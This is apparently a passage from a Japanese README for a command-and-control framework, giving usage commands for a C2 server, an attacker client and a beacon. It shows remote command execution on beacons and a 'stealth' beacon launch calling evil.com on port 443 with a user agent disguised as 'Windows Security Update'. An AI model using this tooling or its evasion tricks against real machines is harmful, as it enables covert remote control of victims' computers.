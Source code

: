 #### 3. 攻撃者クライアント接続
```bash
# ターミナル3: 攻撃者クライアント
python3 attacker_client.py -s 127.0.0.1 -p 4444
```

#### 4. 基本操作
```bash
C2> beacons                    # Beacon一覧表示
C2> use test_beacon           # Beacon選択
C2[test_beacon]> whoami       # コマンド実行
C2[test_beacon]> pwd          # 現在ディレクトリ確認
C2[test_beacon]> ls           # ファイル一覧
```

## 📖 詳細な使用方法

### C2サーバ

#### 基本起動
```bash
python3 updated_c2_server.py
```

#### カスタムポート
```bash
python3 updated_c2_server.py --host 192.168.1.100 --c2-port 8080 --socks-port 8081
```

#### 外部接続許可
```bash
python3 updated_c2_server.py --host 0.0.0.0
```

### Beacon

#### 基本接続
```bash
python3 lightweight_beacon.py -s <C2サーバIP> -p 4444
```

#### 高度な設定
```bash
# カスタムBeacon ID、チェックイン間隔
python3 lightweight_beacon.py -s 192.168.1.100 -p 4444 \
  --beacon-id corporate_pc_001 \
  --sleep 60 \
  --jitter 0.4

# ステルスモード
python3 lightweight_beacon.py -s evil.com -p 443 \
  --stealth \
  --user-agent "Windows Security Update"
```
